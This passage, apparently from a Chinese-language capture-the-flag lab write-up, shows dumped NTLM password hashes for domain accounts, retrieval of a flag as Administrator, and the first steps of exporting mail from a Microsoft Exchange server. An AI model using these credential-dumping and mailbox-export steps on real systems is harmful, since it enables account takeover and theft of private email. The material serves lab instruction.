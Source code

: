 ```
1145 HealthMailbox320fc73 0c3d5e9fa0b8e7a830fcf5acaebe2102 66048
1146 Lumia 862976f8b23c13529c2fb1428e710296 512
500 Administrator 7acbc09a6c0efd81bfa7d5a1d4238beb 512
1000 XIAORANG-WIN16$ 4c3665353b4e8ffef1d5aa7f9892b333 532480
1147 Zhangtong 22c7f81993e96ac83ac2f3f1903de8b4 512
1103 XIAORANG-EXC01$ 03928fc540daa6ab1043b2d5d1d4733f 4096
1104 XIAORANG-PC$ ced137d0bb9692f982b26d8a8c8e3a9e 4096
1135 HealthMailbox8446c5b 905baa977931587c1d6ff0c948575ec1 66048
1136 HealthMailbox0d5918e 5173bd5a58c627881b2e5dd88d9718ca 66048
```

获取 flag：

```
PS C:\Users\Administrator\flag> type flag.txt
____  ___.___   _____   ________ __________    _____    _______    ________
\   \/  /|   | /  _  \  \_____  \\______   \  /  _  \   \      \  /  _____/
 \     / |   |/  /_\  \  /   |   \|       _/ /  /_\  \  /   |   \/   \  ___
 /     \ |   /    |    \/    |    \    |   \/    |    \/    |    \    \_\  \
/___/\  \|___\____|__  /\_______  /____|_  /\____|__  /\____|__  /\______  /
      \_/            \/         \/       \/         \/         \/        \/



flag04: flag{965bedbc-0311-4c9e-8931-4ecccd88469a}
```

## 从 Exchange 服务器上导出邮件

需要先在 Microsoft Exchange Server 上将对应的 PowerShell Snap-in（PowerShell 管理单元）添加到当前会话，才能使用 Exchange 的 cmdlet 进行操作。

对于不同版本的 Exchange 对应的管理单元名称也不同：

| Version              | PowerShell Command                                            |
| -------------------- | ------------------------------------------------------------- |
| Exchange 2007        | Add-PSSnapin Microsoft.Exchange.Management.PowerShell.Admin;  |
| Exchange 2010        | Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010;  |
| Exchange 2013 & 2016 | Add-PSSnapin Microsoft.Exchange.Management.PowerShell.SnapIn; |

> 注：[Windows PowerShell 管理单元](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_pssnapins?view=powershell-5.1#registering-a-snap-in)是用 .NET Framework 语言编写的程序，编译为 .dll 文件。要在管理单元中使用提供程序和 cmdlet，必须首先注册管理单元（将其添加到注册表）。

使用 Get-ExchangeServer cmdlet 查询 Exchange Server 的主机名、版本、数据路径：

```
PS C:\> Get-ExchangeServer | fl name,edition,admindisplayversion,datapath

Name                : XIAORANG-EXC01
Edition             : StandardEvaluation
AdminDisplayVersion : Version 15.1 (Build 1591.10)
DataPath            : C:\Program Files\Microsoft\Exchange Server\V15\Mailbox

```
